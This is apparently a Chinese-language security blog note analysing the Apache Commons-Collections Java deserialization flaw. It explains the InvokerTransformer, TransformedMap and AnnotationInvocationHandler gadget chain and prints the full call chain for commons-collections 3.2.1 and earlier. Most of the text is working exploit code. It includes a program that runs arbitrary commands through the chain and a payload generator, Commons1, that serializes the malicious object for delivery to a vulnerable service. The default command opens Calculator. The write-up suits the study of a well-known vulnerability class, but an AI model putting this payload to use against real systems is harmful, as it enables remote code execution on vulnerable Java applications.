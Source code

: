 ```yaml
---
title: Commons-Collections反序列化漏洞分析
date: 2021-12-25
tags:
 - Vulnerabilities
 - 笔记
categories:
 - Vulnerabilities
---
```


#### 1. InvokerTransformer.transform反射调用

Gadget构造主要利用了其Transformer接口，将一个对象通过transform转换为另一个对象。其中有一个Invoker类型的转换接口InvokerTransformer，实现了Serializable接口

```java
public class InvokerTransformer implements Transformer, Serializable {
...省略...
    private final String iMethodName;
    private final Class[] iParamTypes;
    private final Object[] iArgs;
    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();  // 反射获取类
            Method method = cls.getMethod(iMethodName, iParamTypes);  // 反射得到具有对应参数的方法
            return method.invoke(input, iArgs);  // 使用对应参数调用方法，并返回相应调用结果
        } catch (NoSuchMethodException ex) {
...省略...
```

要想利用InvokerTransformer类中的transform()来达到任意命令执行，还需要一个入口点，使得应用在反序列化的时候能够通过一条调用链来触发InvokerTransformer中的transform()接口。

因此就找到了位于TransformedMap类中的checkSetValue()方法：

```java
public class TransformedMap
        extends AbstractInputCheckedMapDecorator
        implements Serializable {
...省略...
    protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

TransformedMap实现了Map接口，在对字典键值进行setValue操作时会调用valueTransformer.transform(value)。。这里也就找到了前面反射调用的上一步调用。

为了多次进行反射调用，将InvokerTransformer实例级联在一起组成一个ChainedTransformer对象，在其调用的时候进行一个级联transform()调用：

```java
public class ChainedTransformer implements Transformer, Serializable {
...省略...
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
```

现在就可以造出一个TransformedMap实例，在对字典键值进行setValue()操作的时候调我们构造的ChainedTransformer：

```java
package exserial.examples;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class SetValueToExec {

    public static void main(String[] args) throws Exception {
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";
        String[] execArgs = command.split(",");

        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap<String, Object>();
        Map<String, Object> exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        exMap.put("1111", "2222");
        for (Map.Entry<String, Object> exMapValue : exMap.entrySet()) {
            exMapValue.setValue(1);
        }
    }
}
```

目前已经完成了使用TransformedMap进行任意命令执行，要想在Java应用反序列化的过程中触发该过程，还需要找到一个类，它能够在反序列化调用readObject()的时候调用TransformedMap内置类MapEntry中的setValue()函数，这样才能够构成一条完整的Gadget调用链。

恰好在sun.reflect.annotation.AnnotationInvocationHandler类中找到了具有Map类型的参数，并且在readObject()方法中触发了上面所提到的所有条件：

```java
    private void readObject(java.io.ObjectInputStream s) {
        ...省略...
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                    memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
                }
            }
        }
    }
```

可以注意到memberValue是AnnotationInvocationHandler类中类型声明为Map<String, Object>的成员变量，刚好和之前构造的TransformedMap类型相符。

因此，我们可以通过Java的反射机制动态获取AnnotationInvocationHandler类，使用构造好的TransformedMap作为它的实例化参数，然后将实例化的AnnotationInvokationHandler进行序列号得到二进制数据，传递给具有相应环境的序列化数据交互接口，触发命令执行的Gadget：

```java
package exserial.payloads;

import java.io.ObjectOutputStream;

import java.util.Map;
import java.util.HashMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;

import exserial.payloads.utils.Serializables;

public class Commons1 {

    public static Object getAnnotationInvocationHandler(String command) throws Exception {
        String[] execArgs = command.split(",");
        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap();
        tempMap.put("value", "does't matter");
        Map exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, exMap);

        return instance;
    }

    public static void main(String[] args) throws Exception {
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";

        Object obj = getAnnotationInvocationHandler(command);
        ObjectOutputStream out = new ObjectOutputStream(System.out);
        out.writeObject(obj);
    }
}
```

完整的调用链为：

```
/*
    Gadget chain:
        ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
                AbstractInputCheckedMapDecorator$MapEntry.setValue()
                    TransformedMap.checkSetValue()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()

    Requires:
        commons-collections <= 3.2.1
*/
```

